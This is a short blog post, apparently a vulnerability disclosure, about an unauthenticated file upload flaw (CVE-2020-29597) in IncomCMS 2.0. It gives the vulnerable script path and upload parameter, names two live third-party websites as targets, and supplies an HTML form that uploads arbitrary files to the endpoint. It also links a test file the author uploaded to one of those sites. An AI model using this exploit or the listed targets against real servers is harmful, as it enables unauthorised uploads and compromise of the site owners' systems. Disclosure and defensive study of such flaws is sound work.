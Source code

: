 ```yaml
---
layout: post
title:  "IncomCMS 2.0 insecure files upload"
description: IncomCMS 2.0 is vulnerable to insecure files upload
tags: exploits bugbounty
---
```

  Hi there!, I've discovered endpoint that accepts any file and upload it without any validation or even being authentication 

### Discovered by : Mohammed Fadhl Al-Barbari aka @m4dm0e

### CVE-ID : `CVE-2020-29597`

### Vulnerable endpoint/script : `site.com/incom/modules/uploader/showcase/script.php`
  
  
### Vulnerability type : `Insecure file upload`
  
  
### Tested on : `IncomCMS 2.0 old versions probably vulnerable too `
  
### Uploader parameter : `Filedata`  
  
### Live websites : 
```
http://mzgesheft.kz/incom/modules/uploader/showcase/script.php
http://mekom.kz/incom/modules/uploader/showcase/script.php
```

### HTML exploit : 

```html
<!DOCTYPE html>
<html>
<head>
  <title>Upload your files</title>
</head>
<body>
  <form enctype="multipart/form-data" action="http://www.example.com/incom/modules/uploader/showcase/script.php" method="POST">
    <p>Upload your file</p>
    <input type="file" name="Filedata"></input><br />
    <input type="submit" value="Upload"></input>
  </form>
</body>
</html>

```

###  POCs  : `http://mzgesheft.kz/upload/userfiles/image/cve.png`
  


	
	
Thanks for reading this.

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
